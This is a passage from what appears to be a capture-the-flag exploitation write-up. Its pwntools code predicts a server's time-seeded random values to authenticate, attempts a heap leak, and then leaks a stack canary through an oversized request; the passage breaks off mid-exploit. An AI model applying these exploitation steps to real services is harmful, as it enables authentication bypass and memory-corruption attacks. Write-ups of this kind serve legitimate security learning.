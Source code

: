 ```python
    pl+=data
    io.send(pl)
    
plain=b''
session=b''
def genarate_rand_string(size=0, data=0):
    global plain
    pl=p32(0x70303070)
    pl+=p32(opcode[1])
    pl+=p16(size)
    pl+=b'A'*100
    io.send(pl)
    glibc.srand(glibc.time(None))
    for i in range(32):
        plain+=p8(glibc.rand() & 0xff)    
    print(plain.hex())
    data= io.recv()
    return data
    
def authenticate(size=0):
    global session
    pl=p32(0x70303070)
    pl+=p32(opcode[2])
    pl+=p16(0x100)
    pl+=plain
    io.send(pl)
    data= io.recv()
    session=io.recv()
    print(data)
    return session
     
genarate_rand_string()  
a=authenticate()
print(a)
pause()
printdata(0xfff, b'A'*0xfff)
print(io.recv())
data=io.recv(0x1000)
heap=u64(data[4:10].ljust(8, b'\0')) - 0x4ba0
print(hex(heap))
```

This code attempts to execute a heap leak using `opcode 0x301`, but unfortunately it fails in the server 

We have to leak canary and libc via `opcode 0x101`

```cpp
session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1)
buf+=b'moonlit_embrace\0'
buf+=(778+1-len(b'moonlit_embrace\0'))*b'A'


io.send(buf)
data = io.recv()
leak=u64(b'\0'+data[265:])
log.info("canary: " + hex(leak))

session=a
buf=session
buf+=p32(0)
```